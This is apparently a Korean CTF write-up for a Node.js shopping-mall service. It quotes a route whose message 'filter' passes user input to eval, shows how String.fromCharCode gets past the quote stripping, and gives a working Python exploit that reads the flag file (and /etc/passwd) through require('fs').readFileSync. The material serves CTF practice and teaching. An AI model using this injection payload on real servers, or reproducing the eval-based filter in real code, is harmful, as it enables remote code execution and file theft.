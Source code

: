 # Service 2. Mall

Service 2는 상품을 온라인으로 구매할 수 있는 쇼핑몰이다.
메인 화면에 관리자에게 메시지를 보낼 수 있는 Contact 창이 있다.
그런데 실제로는 `/mypage/sendMessage` 로 요청이 가고,
그 메세지는 나중에 mypage에서 볼 수 있다.

## Vulnerability

`mail/webServer/routes/mypage.js`를 보면 다음 코드가 있다.

```js
/*
 * This function is to send message to mypage.
 */
router.post('/sendMessage', function(req, res, next)
{
    // parameter from client
    var msg = req.param('msg');

    // SQL statement
    var iString = 'INSERT INTO messages SET ?';
    var p = { user_id: req.session.user, msg: msgfilter(msg) };

    // inserting messages to mypage
    q.query( iString, p, function( err, result, fields ){
        // when SQL error
        if (err) {
            console.log(err);
            return res.json( { status: 0, message: "Wrong parameter..."} );
        }
        // when SQL success
        else {
            var items = result;
            console.log(result);

            // send success message
            res.json({ status: 1 , message: 'Sent message...'});
        }
    });

    // execute SQL
    q.execute();
});

// securely filter out messages!
function msgfilter(msg) {
    try {
        return eval(msg.replace(/\\/g, "\\\\")
                       .replace(/<script>/g,"")
                       .replace(/<\/script>/g,"")
                       .replace(/'/g,"\\'")
                       .replace(/"/g, "\\\""));
    } catch (e) {
        console.log(e.message);
        return msg;
    }
}
```

DB에 메시지를 입력하기 전에 `msgfilter`함수를 거치게 되는데,
그 과정에서 임의의 문자열을 코드로 실행해주는 `eval`함수를 사용한다.
몇 가지 필터링을 하기는 하지만 여전히 사용자가 입력한 내용을 거의 그대로
실행해주기 때문에 임의 코드 실행이 가능한 취약점이 있다.

## Attack vector

메시지에 플래그를 읽어오는 javascript 코드를 입력하여 보내면 그 코드가 실행된 뒤 DB에 추가되어
mypage에서 플래그 파일의 내용을 볼 수 있다.

다만 따옴표(`'`,`"`)를 사용할 수 없으므로 플래그 파일 명 등 문자열을 다른 방식으로 입력해야 한다.
`String.fromCharCode`함수를 사용하면 따옴표 없이도 아스키 코드로부터 글자를 만들어낼 수 있다.

또한 nodejs의 `fs.readFileSync`함수를 사용하면 파일을 읽어올 수 있다. eval context 내에는
fs가 정의되어있지 않은데, `require`를 사용해서 fs를 불러오면 해결된다.

실제로 아래와 같은 코드를 보내면 `/etc/passwd` 파일 내용을 볼 수 있다.

![mall1.png](img/mall1.png)

![mall2.png](img/mall2.png)

## Exploit


```
import os
import re
import time

import requests

# equivalent to
# require('fs').readFileSync('/var/ctf/flag').toString()

fname = '/var/ctf/flag'
charcodes = []
for a in map(ord, fname):
    charcodes.append('String.fromCharCode(%d)' % a)
name = '+'.join(charcodes)

pay = 'require(String.fromCharCode(102) + String.fromCharCode(115))'
pay += '.readFileSync(' + name + ').toString()'

def ex(team):
    domain = 'http://localhost:80%d2' % team
    s = requests.Session()
    r = s.post(domain + '/login', data={'id':'team5', 'pw':'5team'})
    r = s.post(domain + '/mypage/sendMessage', data={'msg':pay})
    time.sleep(2)
    r = s.get(domain + '/mypage')

    hits = re.findall('div class="panel-body">\s+(\w{32})\s+', r.content)
    flag = hits[-1]
    return flag

for i in (1,2,3,4,6):
    try:
        flag = ex(i)
        os.system('python submit.py %d 2 %s' % (i, flag))
    except:
        pass
```
